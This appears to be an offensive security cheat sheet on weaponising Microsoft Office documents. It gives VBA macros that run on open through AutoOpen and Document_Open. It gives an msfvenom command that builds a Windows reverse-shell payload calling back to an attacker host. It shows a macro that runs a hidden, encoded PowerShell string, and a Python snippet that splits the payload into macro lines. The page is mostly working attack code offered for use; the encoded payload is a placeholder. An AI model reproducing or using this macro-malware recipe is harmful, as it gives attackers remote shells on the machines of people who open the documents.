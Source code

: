 # Microsoft Office

> Macro malware (sometimes known as macro viruses) takes advantage of the VBA (Visual Basic for Applications) programming in Microsoft Office macros to spread viruses, worms, and other forms of malware.

In order to create a Macro, we need to go to: **View > Macro**. Once in the code, make use of AutoOpen() and Document_Open() procedures in order to activate the macro when the document is open or re-opened.

```bash
# Executed when the document is opened
Sub AutoOpen()
  NewMacro
End Sub
#Executed when an already-open document is reopened.
Sub Document_Open()
  NewMacro
End Sub
#Main function (shellcode function)
Sub NewMacro()

End Sub
```

**Note:** Document should be saved as .docm or .doc  formats, .docx format doesn't support macros.

## Generating shellcode

```bash
#-f: Output file is HTA to Powershell.
msfvenom -p windows/shell_reverse_tcp LHOST=$IPADDRESS LPORT=$PORT -f hta-psh -o /var/www/html/$FILENAME.hta
```

Once the shellcode has been created, we need to edit the Macro as following:

```bash
Sub AutoOpen()
  NewMacro
End Sub
Sub Document_Open()
  NewMacro
End Sub
Sub NewMacro()
  #Create a String variable that will hold our shellcode:
  Dim Str As String
  #Paste shellcode here:
  Str = "powershell.exe -nop -w hidden -e 9038402JKLADFJ.."
  Str += "jhad9u01ehfkjna81neja..........................."
  Str += "................................................"
  #Invoke Windows Host Script in order to execute this string
  CreateObject("Wscript.Shell").Run Str
End Sub
```

## Format the output

```bash
str = "powershell.exe -nop -w ......."
n = 50

for i in range(0, len(str), n):
        print "Str = Str + " + '"' + str[i:i+n] + '"'
```
